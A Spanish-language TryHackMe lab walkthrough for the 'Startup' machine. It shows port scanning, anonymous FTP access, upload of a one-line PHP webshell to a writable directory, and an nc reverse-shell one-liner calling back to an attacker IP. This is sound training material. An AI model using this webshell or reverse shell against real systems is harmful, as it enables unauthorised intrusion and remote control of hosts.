






## **Tutorial: Explotación de la máquina Startup en TryHackMe**


## 1. Conexión a la VPN de TryHackMe

Para poder acceder a las máquinas del laboratorio es necesario conectarse primero a la VPN de TryHackMe. Esto crea un túnel cifrado entre la máquina Kali y la red privada del laboratorio.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali ejecutamos el siguiente comando utilizando el archivo .ovpn descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```
Si este no funciona, probar el west-3-
Si la conexión se establece correctamente aparecerá el mensaje:

```bash
Initialization Sequence Completed
```

Esto indica que la VPN se ha establecido correctamente.

### 1.2 Verificación de la conexión

Para comprobar que la conexión está activa ejecutamos:

```bash
ip a
```

Esto mostrará una interfaz de red llamada tun0, que corresponde a la conexión VPN con TryHackMe.

## 2. Escaneo de puertos con Nmap

El siguiente paso consiste en identificar los servicios expuestos en la máquina objetivo utilizando Nmap, una herramienta fundamental para el reconocimiento en auditorías de seguridad.

Se ejecuta el siguiente comando:

Escaneo completo de puertos:

```bash
nmap -sC -sV -p- 10.130.144.165
```



- -sC → ejecuta scripts básicos de enumeración (NSE), que permiten detectar configuraciones comunes y posibles vulnerabilidades
- -sV → identifica la versión de los servicios activos, lo cual es clave para buscar exploits
- -p- → escanea todos los puertos (1–65535), evitando perder servicios ocultos en puertos no estándar

- FTP (21) → posible acceso a archivos o subida de contenido
- SSH (22) → acceso remoto si se obtienen credenciales
- HTTP (80) → aplicación web que puede contener vulnerabilidades


## 3. Enumeración de servicios

Una vez identificados los servicios, se procede a analizarlos individualmente para encontrar posibles debilidades.


### 3.1 Enumeración del servicio FTP

Si el puerto 21 está abierto, se intenta acceso anónimo:

```bash
ftp 10.130.144.165
```

**Cuando lo pida:**

```bash
User: anonymous
Password: anonymous
```



Si el acceso es exitoso, se listan los archivos:

```bash
ls
```

**Descarga de archivos**

Una vez dentro del servicio FTP, se descargan los archivos disponibles para su análisis:

```bash
get notice.txt
get important.jpg
```



Posteriormente, se revisa el contenido del archivo de texto:

```bash
cat notice.txt
```



Indica claramente:

- hay un usuario llamado maya
- probablemente está involucrada en la escalada
- es el objetivo del siguiente paso


**Acceso a directorio escribible**

Durante la enumeración se observa un directorio con permisos de escritura:

```bash
cd ftp
ls
```

Este directorio tiene permisos:

```bash
drwxrwxrwx
```

Lo que indica que cualquier usuario puede subir archivos.


## 4. Explotación mediante subida de archivos

Dado que el servicio FTP permite acceso anónimo y además dispone de un directorio con permisos de escritura, es posible aprovechar esta mala configuración para subir archivos maliciosos y ejecutarlos desde el servidor web.


### 4.1 Creación de una webshell

En la máquina atacante (Kali) se crea un archivo PHP que permite ejecución de comandos en el servidor:

```bash
nano shell.php
```


Contenido del archivo:

```bash
<?php system($_GET['cmd']); ?>
```


### 4.2 Subida del archivo al servidor FTP

Se sube el archivo al directorio writable del FTP:

Dentro de FTP ejecuta:

```bash
pwd
```

Entra al directorio correcto

```bash
cd ftp
ls
```

Ahora sube el archivo

```bash
put shell.php
```




## 5. Enumeración web

Al acceder al servidor web:

```bash
http://10.130.144.165/
```

Se muestra una página en mantenimiento, sin funcionalidades visibles.

Esto indica que probablemente la web no está completamente desplegada, pero puede haber directorios ocultos.


### 5.1 Enumeración de directorios

Se realiza fuzzing con Gobuster:

```bash
gobuster dir -u http://10.130.144.165 -w /usr/share/wordlists/dirb/common.txt
```

Resultado relevante:

```bash
/files (Status: 301)
```

Esto indica que existe un directorio accesible llamado /files.


### 5.2 Acceso al directorio /files

Al entrar en el navegador:

```bash
http://10.130.144.165/files/
```
Se confirma que es un directorio expuesto públicamente.


### 5.3 Relación FTP → Web 

Como ya vimos antes:

- el FTP permite login anónimo
- existe un directorio escribible (ftp)
- y el servidor web está apuntando a ese contenido

Esto significa que lo que subimos por FTP puede ser accesible desde HTTP.


## 6. Ejecución de la webshell

Después de subir correctamente el archivo shell.php al servidor FTP, este queda accesible desde el servidor web en la siguiente ruta:

```bash
http://10.130.144.165/files/ftp/shell.php
```


### 6.1 Prueba de ejecución de comandos

Para verificar que la webshell funciona correctamente, se ejecuta un comando básico como id:

```bash
http://10.130.144.165/files/ftp/shell.php?cmd=id
```

Si la explotación es correcta, la respuesta del servidor será similar a:

```bash
uid=33(www-data) gid=33(www-data)
```

Esto confirma que:

- el archivo PHP se está ejecutando correctamente
- tenemos ejecución remota de comandos (RCE)
- el usuario del servidor web es www-data


## 7. Obtención de una reverse shell

Una vez confirmada la ejecución remota de comandos (RCE), el siguiente paso es obtener una shell interactiva más estable.


### 7.1 Preparar listener en Kali

En la máquina atacante:

```bash
nc -lvnp 4444
```

### 7.2 Ejecutar reverse shell desde la webshell

Se utiliza la webshell para lanzar una conexión inversa:

```bash
http://10.130.144.165/files/ftp/shell.php?cmd=rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7C/bin/sh%20-i%202%3E%261%7Cnc%20192.168.142.53%204444%20%3E/tmp/f
```

Sustituir la IP por la de tun0 si es necesario.


### 7.3 Conexión recibida

Si la explotación es correcta, en el listener aparecerá:

```bash
connect to [192.168.142.53] from 10.130.144.165
/bin/sh
$
```

